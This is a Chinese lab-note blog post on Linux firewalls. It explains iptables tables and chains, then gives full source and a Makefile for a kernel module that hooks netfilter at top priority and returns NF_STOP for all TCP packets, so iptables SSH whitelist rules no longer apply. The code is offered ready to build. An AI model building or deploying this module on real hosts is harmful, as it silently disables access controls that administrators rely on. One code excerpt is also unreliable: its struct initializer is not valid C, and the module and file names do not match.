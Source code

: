 ```yaml
---
layout: post
title: "Netfilter and Iptables：netfilter模块绕过iptables规则"
date: 2020-09-08 
description: "netfilter模块绕过iptables规则"
tag: Linux攻防
---   
```

本文介绍如何通过加载netfilter模块，使得不用修改iptables即可绕过规则。

本文为实验笔记，所以不对Netfilter以及iptsables进行过多的介绍，读者请先查阅相关知识再阅读本文。
### iptables 介绍及技术原理
![](/imag/20200908/1.png)
![](/imag/20200908/2.png)
![](/imag/20200908/3.png)
优先级次序（由高而低）：

raw --> mangle --> nat --> filter

------------------------------------------------------------------------------------
filter      表：负责过滤功能，防火墙；内核模块：iptables_filter

nat        表：network address translation，网络地址转换功能；内核模块：iptable_nat

mangle 表：拆解报文，做出修改，并重新封装 的功能；iptable_mangle

raw       表：关闭nat表上启用的连接追踪机制；iptable_raw

------------------------------------------------------------------------------------
PREROUTING      的规则可以存在于：raw表，mangle表，nat表。

INPUT                   的规则可以存在于：mangle表，filter表，（centos7中还有nat表，
centos6中没有）。
FORWARD           的规则可以存在于：mangle表，filter表。

OUTPUT               的规则可以存在于：raw表mangle表，nat表，filter表。

POSTROUTING   的规则可以存在于：mangle表，nat表。

------------------------------------------------------------------------------------
raw        表中的规则可以被哪些链使用：PREROUTING，OUTPUT

mangle  表中的规则可以被哪些链使用：PREROUTING，INPUT，FORWARD，OUTPUT，POSTROUTING

nat         表中的规则可以被哪些链使用：PREROUTING，OUTPUT，POSTROUTING（centos7中还有INPUT，centos6中没有）

filter       表中的规则可以被哪些链使用：INPUT，FORWARD，OUTPUT

------------------------------------------------------------------------------------
### 我们可以将数据包通过防火墙的流程总结为下图：

![](/imag/20200908/4.png)
 如何绕过iptables规则？

有如下场景：

centos7主机限制了ssh的22端口的登录，只能由特定的ip登录

iptables规则如下：

首先在INPUT链中丢弃了所有通往22端口的tcp包

iptables -I INPUT -p tcp --dport 22 -j DROP

然后设置白名单，只允许某一特定ip通过

iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT


从上面的命令中我们可以分析出，INPUT链中新添加了两条规则，拒绝所有的包以及设置白名单，-I参数表示插入，后面的白名单规则的优先级会高于前面的规则，所以iptables会首先放行来自192.168.71.1的TCP包，而来自其它ip的通往22端口的tcp包则会被另一条规则drop掉，从而达到22端口限制ip登录的功能。

接下来我们编写Netfilter模块，绕过iptables规则，使得任意ip都可以登录ssh

iptables的 INPUT 链对应 Netfilter 的HOOK点为 NF_INET_LOCAL_IN，iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT 这条规则就相当于使用netfilter 在NF_INET_LOCAL_IN hook点注册了一个回调函数，这个函数只允许该ip的数据包通过，iptables的源码其实也是这么做的

所以我们的 nf_hook_ops 结构体将像下面这样初始化：

    static struct nf_hook_ops anyssh_ops = {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
    }
hook回调函数：

我们过滤了tcp数据包，并且将所有的tcp包都返回 NF_STOP

NF_STOP表示报文通过了某个钩子函数的处理，后面的钩子函数你们就不要处理了，谁让你的优先级低呢，我就可以替你做主。假设NF_INET_LOCAL_IN中注册了两个钩子函数hook1和hook2，hook1的优先级高于hook2，hook2设定的处理结果是NF_DROP。如果hook1设定的处理结果是NF_ACCEPT，那么报文就不会递交给应用程序，因为hook2会把报文丢弃掉。如果hook1设定的处理结果是NF_STOP，那么报文就会提交给应用程序，因为hook1放行了，根本不会给hook2处理的机会。这个机制只在一个HOOK点的函数链中生效。也就是说iptables规则假设所处于的链为INPUT，则netfiler hook函数必须处于NF_INET_LOCAL_IN。

这么做的原因就是为了让iptables的规则失效，由于我们设置了 nfho.priority = NF_IP_PRI_FIRST; 我们的hook函数在INPUT这个链中处于最高优先级，只要直接返回NF_STOP，就没有后面iptbales什么事了，也就达到了任意ip都可以登录ssh的目的。

    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,STOP\n");
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }

### 完整代码：

any_ssh.c

    #include <linux/module.h>
    #include <linux/kernel.h>
    #include <linux/skbuff.h>
    #include <linux/ip.h>                  /* For IP header */
    #include <linux/netfilter.h>
    #include <linux/netfilter_ipv4.h>


    static struct nf_hook_ops nfho;


    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,drop\n");
                //return NF_DROP;
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }


    int init_module()
    {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        //nfho.hooknum  = NF_INET_PRE_ROUTING; /* First for IPv4 */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
        printk("init_module,filter_tcp\n");
        nf_register_hook(&nfho);


        return 0;
    }


    /* Cleanup routine */
    void cleanup_module()
    {
        printk("cleanup_module,filter_tcp\n");
        nf_unregister_hook(&nfho);
    }



Makefile

    MODULE_NAME:=filter_tcp
    ifneq ($(KERNELRELEASE),)
    mymodule-objs:=${MODULE_NAME}.o
    obj-m:=${MODULE_NAME}.o
    else
    PWD:=$(shell pwd)
    KVER:=$(shell uname -r)


    KDIR:=/lib/modules/$(shell uname -r)/build
    all:
        $(MAKE) -C $(KDIR) M=$(PWD)
    #clean:
        @rm -rf .*.com *.o *.mod.c  .tmp_versions modules.order Module.symvers
    install:
        echo ${KDIR}
        @insmod ${MODULE_NAME}.ko
    uninstall:
        @rmmod ${MODULE_NAME}.ko
    endif


### 参考链接：
http://www.zsythink.net/archives/1199

### 转载请注明出处

安全编程交流：NzgyNDIxODg3


